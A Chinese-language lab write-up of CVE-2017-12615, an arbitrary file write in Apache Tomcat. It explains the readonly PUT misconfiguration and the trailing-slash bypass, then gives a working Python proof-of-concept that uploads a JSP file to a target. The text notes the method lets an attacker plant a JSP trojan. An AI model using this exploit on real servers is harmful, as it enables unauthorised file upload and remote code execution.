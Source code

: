# Tomcat 任意文件写入（CVE-2017-12615）

## 介绍
本质是配置文件web.xml的default配置项中readonly导致的。

看看readonly是干嘛的：

![](https://github.com/saiyanlee/Record/blob/master/Sys/Tomcat/Tomcat%20%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5%EF%BC%88CVE-2017-12615%EF%BC%89/images/1.png)

默认是true，true的话PUT和DELETE方法是被拒绝的。如果改为false，我们就能利用，用PUT方法上传文件


然后就可以上传任意文件了？ 首先了解一下： \
org.apache.jasper.servlet.JspServlet：默认处理jsp，jspx文件请求，不存在PUT上传逻辑，无法处理PUT请求
org.apache.catalina.servlets.DefaultServlet：默认处理静态文件（除jsp，jspx之外的文件），存在PUT上传处理逻辑，可以处理PUT请求。

我们能PUT文件到服务器，但jsp文件是不可以被PUT上去的，因为jsp文件会给到JspServlet处理的，而JspServlet没法处理PUT的请求。

只有DefaultServlet能处理PUT请求，通过构造特殊的后缀名绕过（若是windows也有方法绕），从而上传jsp木马。这就是CVE-2017-12615

## 版本
Tomcat 8.5.19
Vulhub

## 漏洞复现
通过在在文件名后面添加斜杠 / 来进行绕过

写一个POC

```
import requests
import sys
body = '''
<%@ page language="java" contentType="text/html; charset=UTF-8"
    pageEncoding="UTF-8"%>
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
<title>Insert title here</title>
</head>
<body>
    <%
        String str = "hello world";
        out.println(str);
    %>
</body>
</html>
'''
requests.put(sys.argv[1]+'haha.jsp/',data=body)
rq = requests.get(sys.argv[1]+'haha.jsp')
if rq.status_code == 200:
	print ("[+] Finish!")
else:
	print ("[-] Shit!")
```

执行
![](https://github.com/saiyanlee/Record/blob/master/Sys/Tomcat/Tomcat%20%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5%EF%BC%88CVE-2017-12615%EF%BC%89/images/2.png)

访问上传成功了的haha.jsp
![](https://github.com/saiyanlee/Record/blob/master/Sys/Tomcat/Tomcat%20%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5%EF%BC%88CVE-2017-12615%EF%BC%89/images/3.png)

